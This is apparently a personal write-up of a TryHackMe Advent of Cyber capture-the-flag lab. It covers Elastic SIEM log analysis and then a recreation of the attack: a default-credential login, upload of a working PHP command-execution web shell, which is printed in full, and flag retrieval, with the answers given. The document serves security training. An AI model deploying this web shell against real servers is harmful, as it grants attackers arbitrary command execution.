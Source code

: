 # 🎄 TryHackMe Advent of Cyber 2024 – Day 3: Log Analysis

## Objectives 🎯

1. Investigate suspicious activity on Frosty Pines Resort’s web server using Elastic SIEM.
2. Identify how a web shell was uploaded and accessed.
3. Exploit the same vulnerability to recreate the attack and retrieve the hidden flag.

## Steps 🚀

### Step 1: Investigating the Logs (Blue Team)

#### Setting Up Elastic SIEM
1. Logged into **Kibana** at `http://MACHINE_IP:5601`.
2. Selected the **frostypines-resorts** index under the **Discover** tab.
3. Adjusted the timeframe to:
   ```
   October 1, 2024, 00:00 – October 3, 2024, 20:00
   ```
4. Added relevant fields:
   - `requests`
   - `clientip`
5. Searched for `"shell.php"` in the `requests` field.

#### Findings
- **Where was the web shell uploaded to?**  
  **Answer:** `/media/images/rooms/shell.php`
- **What IP address accessed the web shell?**  
  **Answer:** `10.11.83.34`

### Step 2: Exploiting the RCE Vulnerability (Red Team)

#### Exploit Steps
1. **Edit Hosts File:**
   - Added `MACHINE_IP frostypines.thm` to `/etc/hosts`.
2. **Log In:**
   - Accessed `http://frostypines.thm` and logged in using:
     - **Username:** admin@frostypines.thm
     - **Password:** admin
3. **Prepare Web Shell:**
   - Created `shell.php` with the following code:
     ```
     <html>
     <body>
     <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
     <input type="text" name="command" autofocus id="command" size="50">
     <input type="submit" value="Execute">
     </form>
     <pre>
     <?php
         if(isset($_GET['command'])) 
         {
             system($_GET['command'] . ' 2>&1'); 
         }
     ?>
     </pre>
     </body>
     </html>
     ```
4. **Upload the Web Shell:**
   - Uploaded `shell.php` as the room image under “Add Room.”
5. **Locate the Shell:**
   - Confirmed the upload at:  
     `http://frostypines.thm/media/images/rooms/shell.php`
6. **Retrieve the Flag:**
   - Accessed the shell and executed:
     ```
     cat flag.txt
     ```

#### Result
- **What is the content of the flag.txt?**  
  **Answer:** `THM{Gl1tch_Was_H3r3}`

## Key Findings 🔑

1. **Upload Location:** The web shell was uploaded to `/media/images/rooms/shell.php`.
2. **Access Point:** The attacker’s IP was `10.11.83.34`.
3. **Exploit Success:** By recreating the attack, I retrieved the flag using the web shell.

## Lessons Learned 🌟

### Blue Team Insights
1. **Log Analysis Matters:** Elastic SIEM made it efficient to trace the attacker’s actions and pinpoint suspicious activity.
2. **Correlate Data:** Adding context with fields like `requests` and `clientip` accelerated the investigation.
3. **Monitoring Uploads:** Unvalidated file uploads are a significant security gap.

### Red Team Insights
1. **Web Shell Simplicity:** A basic PHP script can compromise a system, emphasizing the importance of validating uploaded files.
2. **Default Credentials Are Dangerous:** The admin account used weak credentials (`admin/admin`), making it an easy target.
3. **Defense Against Exploits:** Proper input validation and access controls could have mitigated this attack.

## Tools and Techniques 🛠️

1. **[Elastic SIEM](https://www.elastic.co/security/siem):** Used to investigate web server logs and identify attacker activity.  
2. **Text Editor:** Created the PHP web shell to exploit the vulnerability.  
3. **Browser:** Navigated and interacted with the Frosty Pines Resort website during the attack.  

## Final Thoughts 🎁

Day 3 highlighted the importance of both offensive and defensive skills in cybersecurity. Investigating the logs with Elastic SIEM provided clear insights into the attack, while exploiting the vulnerability demonstrated how impactful simple security oversights can be. Excited to tackle Day 4!

### Answers ✅
1. **Where was the web shell uploaded to?**  
   **Answer:** `/media/images/rooms/shell.php`
2. **What IP address accessed the web shell?**  
   **Answer:** `10.11.83.34`
3. **What is the content of the flag.txt?**  
   **Answer:** `THM{Gl1tch_Was_H3r3}`

## Table of Contents 📚

- [Main Page](README.md)
- [Day 1: OPSEC Challenge](day1.md)
- [Day 2: Log Analysis Challenge](day2.md)
- **[Day 3: Log Analysis](day3.md)**
- [Day 4: Atomic Red Team](day4.md)
- [Day 5: XXE Exploitation](day5.md)
- [Day 6: Sandboxes](day6.md)
- [Day 7: AWS Log Analysis](day7.md)
- [Day 8: Shellcodes](day8.md)
- [Day 9: Risk Assessment](day9.md)
- [Day 10: Phishing](day10.md)
- [Day 11: Wi-Fi Attacks](day11.md)
- [More Days to Come!](#)
